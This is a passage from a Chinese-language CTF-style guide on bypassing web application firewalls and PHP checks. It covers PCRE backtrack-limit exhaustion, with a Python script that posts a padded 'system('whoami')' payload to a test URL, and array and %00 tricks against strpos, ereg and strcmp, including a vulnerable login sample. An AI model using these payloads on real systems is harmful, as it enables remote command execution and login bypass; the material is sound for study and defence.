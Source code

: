 注：PHP为了防止正则表达式的拒绝服务攻击（reDOS），给 `pcre` 设定了一个回溯次数上限 `pcre.backtrack_limit`，可以通过以下代码查看当前环境下的上限：

```php
var_dump(ini_get(‘pcre.backtrack_limit’));
```

回溯次数上限默认是100万，如果回溯次数超过了100万，`preg_match` 返回的便不再是0或1，而是 `false`

可以写一个Python脚本来使回溯次数超出 `pcre.backtrack_limit` 限制从而绕过WAF：

```python
import requests

url = 'http://test.ctf.com/WebShell-Bypass-Guide/test.php'
data = {
    'f': 'system(\'whoami\');//'+'Aabyss'*166667
}
reponse = requests.post(url, data=data)
print(reponse.text)
```

### 8.6 `strpos()` 函数绕过

```php
strpos ( string $haystack , mixed $needle , int $offset = 0 ) : int
```

**`stripos()` 用来查找字符串中某部分字符串首次出现的位置(不区分大小写)**

`strpos()` 函数如果传入数组，便会返回NULL

### 8.7 `ereg()` 函数绕过

```php
int ereg(string pattern, string originalstring, [array regs]);
```

**`ereg()` 函数用指定的模式搜索一个字符串中指定的字符串，如果匹配成功返回true，否则返回false，搜索字母的字符是大小写敏感的**

- `ereg()` 函数存在NULL截断漏洞，可以 `%00` 截断，遇到 `%00` 则默认为字符串的结束，所以可以绕过一些正则表达式的检查
- `ereg()` 只能处理字符串，遇到数组做参数返回NULL
- 空字符串的类型是string，NULL的类型是NULL，false、true是Boolean类型

### 8.8 `strcmp()` 函数绕过

```php
strcmp ( string $str1 , string $str2 ) : int
```

**`strcmp()` 函数是string compare(字符串比较)的缩写，用于比较两个字符串(区分大小写）并根据比较结果返回整数**

如果 `str1` 小于 `str2` 返回 < 0； 如果 `str1` 大于 `str2` 返回 > 0；如果两者相等，返回 0。

`strcmp()` 函数是比较字符串类型的，但如果输入其他类型这个函数将发生错误，会返回NULL

```php
$pass = @$_POST['pass'];
$truepass = $flag;      //不知道的密码参数
if (isset($pass)) {
    if (@!strcmp($pass, $truepass)) {
        echo "成功绕过，登录系统成功";
    }else {
        echo "密码错误";
    }
}else{
    echo "请输入密码";
}
```
